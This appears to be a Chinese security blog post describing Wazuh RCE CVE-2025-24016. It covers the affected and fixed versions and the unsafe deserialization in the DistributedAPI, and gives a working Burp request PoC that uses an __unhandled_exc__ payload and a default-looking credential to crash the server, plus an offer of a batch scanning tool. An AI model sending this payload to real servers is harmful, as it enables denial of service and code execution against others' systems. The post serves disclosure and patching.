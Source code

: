 #  Wazuh RCE漏洞CVE-2025-24016   
爱坤  爱坤sec   2025-03-18 22:06  
  
### 漏洞批量nuclei验证获取地址在文章末尾  
  
  
漏洞概述  
  
该漏洞允许具有 API 访问权限的远程攻击者（受感染的仪表板、集群中的 Wazuh 服务器或具有受感染代理的某些配置）在服务器上执行任意代码。  
  
受影响的版本  
  
wazuh-manager版本>= 4.4.0  
  
已修复版本>= 4.9.1  
  
描述  
  
  
该漏洞发生在 Wazuh API 中，其中的参数DistributedAPI被序列化为 JSON，并在文件as_wazuh_object中使用反序列化framework/wazuh/core/cluster/common.py。攻击者可以通过将未清理的字典注入 DAPI 请求来利用此漏洞，这可能导致对任意 Python 代码的评估。  
  
攻击者可以利用终端触发 RCE run_as，从而控制auth_context参数。通过构造恶意请求，可以在主服务器上执行任意代码。  
  
概念验证  
  
要使用服务器 API 触发此漏洞，请按照以下步骤操作。  
  
PoC Burp Suite 请求  
  
1.Burp Suite 触发漏洞的请求：  
```
POST /security/user/authenticate/run_as HTTP/1.1
Host: target.com:55000
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: application/json
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Authorization: Basic d2F6dXcta3dpTUltUzNjcjM3UDA1MHItOg==  # Base64-encoded "wazuh-wui:MyS3cr37P450r.*-"
Content-Type: application/json
Content-Length: 83

{
  "__unhandled_exc__": {
    "__class__": "exit",
    "__args__": []
  }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pRXeQadBtYGCF3yvd4ECgPPsMDegIzLG5UdnKgCdTeLYS69rmj0Lia6XcQ3AIxCVdUZxuvFVSqxXhJRmFAqXGOw/640?wx_fmt=png&from=appmsg "")  
  
请求说明：  
  
授权标头：这是 base64 编码的授权（wazuh-wui:MyS3cr37P450r.*-）。  
  
**有效负载**：恶意有效负载包含未清理的异常__unhandled_exc__，会触发任意 Python 代码的执行（exit在本例中）。  
### 影响  
### 远程代码执行 (RCE)：此漏洞允许攻击者在 Wazuh 服务器上执行任意代码，影响>= 4.4.0直至4.9.0（尚未修补）的版本。  
  
**潜在的拒绝服务**：在此 PoC 中，该exit功能被触发，导致 Wazuh 服务器关闭。  
## 修复  
## 为了保护您的系统，请升级到修补此问题的Wazuh版本。>= 4.9.1  
  
  
  
工具获取，后台回复【20250318  
】  
  
**更多精彩文章与工具分享 欢迎关注**  
  
****  

